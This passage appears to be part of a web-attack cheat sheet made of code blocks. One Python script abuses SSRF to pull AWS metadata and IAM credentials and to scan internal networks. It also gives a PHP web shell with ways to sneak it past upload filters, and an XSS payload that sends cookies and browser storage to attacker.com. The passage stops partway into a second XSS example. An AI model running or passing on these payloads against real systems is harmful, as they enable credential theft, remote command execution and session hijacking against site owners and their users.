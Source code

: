 ```python
# Cloud Metadata Exploitation
import requests

# AWS Metadata Service
metadata_urls = [
    "http://169.254.169.254/latest/meta-data/",
    "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "http://169.254.169.254/latest/user-data/"
]

# Test SSRF endpoint with cloud metadata
for url in metadata_urls:
    payload = {"url": url}
    response = requests.post("https://target.com/fetch-url", data=payload)
    if response.status_code == 200 and "aws" in response.text.lower():
        print(f"AWS credentials exposed: {response.text}")

# Internal network scanning via SSRF
internal_ips = ["192.168.1.{}", "10.0.0.{}", "172.16.0.{}"]
for ip_pattern in internal_ips:
    for i in range(1, 255):
        ip = ip_pattern.format(i)
        payload = {"url": f"http://{ip}:22"}
        response = requests.post("https://target.com/fetch-url", data=payload)
        if response.status_code == 200:
            print(f"Internal host discovered: {ip}")
```

**File Upload Exploitation**:

```php
# PHP Web Shell Upload
<?php
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    system($cmd);
}
?>

# Upload techniques:
# 1. Double extension: shell.php.jpg
# 2. Null byte: shell.php%00.jpg
# 3. Content-Type manipulation
# 4. ZIP upload with directory traversal
# 5. Polyglot files (valid image + executable code)
```

**XSS Exploitation Examples**:

```javascript
// Session hijacking XSS payload
<script>
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        origin: window.location.origin
    })
});
</script>

// DOM-based XSS with dynamic payload
<script>
```